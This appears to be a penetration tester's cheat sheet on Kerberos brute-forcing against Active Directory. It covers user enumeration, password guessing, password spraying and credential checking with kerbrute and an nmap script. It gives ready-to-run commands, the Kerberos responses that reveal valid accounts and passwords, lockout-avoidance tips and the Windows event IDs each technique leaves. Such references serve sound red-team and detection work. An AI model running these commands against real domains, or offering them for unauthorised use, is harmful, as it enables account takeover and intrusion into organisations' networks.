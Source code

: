 # Brute-forcing
Be careful for locking out accounts (error code 4625 & 4771). For kerbrute use `--save` to abort when one account gets lockout.

Can find user accounts with 'UF_DONT_REQUIRE_PREAUTH' set. Can be used for a AS-REP Roasting attack.

## User enumeration
4768 - Kerberos authentication ticket (TGT) was requested
Won't lockout user account. 

Invalid user: PRINCIPAL_UNKNOWN
Valid user w pre-auth: PREAUTH_REQUIRED
Valid user wo pre-auth: an AS-REP

`kerbrute userenum --dc <IP> -d <DOMAIN> <USERLIST>`
`sudo nmap -sU -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm=<DOMAIN>,userdb=<USERLIST> <IP>`

## Password enumeration
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

User w pre-auth, valid PW: RESPONSE_TOO_BIG
User w pre-auth, invalid PW: PREAUTH_FAILED
User wo pre-auth, valid PW: a valid AS-REP
User wo pre-auth, invalid PW: an invalid AS-REP

`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

## Password Spraying
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

## Check user:password combo
 4768 - A Kerberos authentication ticket (TGT) was requested
 4771 - Kerberos pre-authentication failed
 
`kerbrute bruteforce --dc <IP> -d <DOMAIN> -v <USERPASSLIST>`